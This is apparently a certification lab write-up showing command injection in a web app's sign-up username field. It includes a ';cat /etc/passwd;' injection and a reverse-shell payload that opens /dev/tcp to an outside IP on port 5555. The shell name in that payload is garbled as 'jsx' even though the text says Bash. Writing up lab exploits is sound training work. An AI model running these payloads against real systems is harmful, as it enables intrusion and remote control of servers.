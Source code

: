 ```yaml
---
title: Challenge 14:The Unseen Obvious
date: 2024-05-15 05:06:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


# Challenge/Task

1. Command Injection

**Proof-of-Concept (POC):**

Command injection is a security vulnerability that allows attackers to execute arbitrary commands on a system through vulnerable application inputs. On the sign-up page, there are 4 input field. One of the field vulnerable to the command injection. I send a command at the username field , “;cat /etc/passwd;” to fetch list of users and the server respond to it. 

![POC-otb](/img/cwae/tuo1.png){: w="400" h="400" }{: .normal }
![POC-otb](/img/cwae/tuo2.png){: w="400" h="400" }{: .normal }

We can try to get a reverse shell here by using this command
```jsx
;echo "jsx -i >& /dev/tcp/143.198.205.200/5555 0>&1" >> f.sh;chmod +x f.sh;jsx f.sh
```

This command attempts to append a line to a file named f.sh, which, when executed, will open a reverse shell to the IP address 143.198.205.200 on port 5555. Then, it makes the file executable and runs it using Bash.

Listening to port 5555.

![POC-otb](/img/cwae/tuo3.png){: w="400" h="400" }{: .normal }

We got a reverse shell after clicking the “Sign-Up” button. 

![POC-otb](/img/cwae/tuo4.png){: w="400" h="400" }{: .normal }

To proof it, I run id and whoami command to show the server belongs to the victim. 
![POC-otb](/img/cwae/tuo5.png){: w="400" h="400" }{: .normal }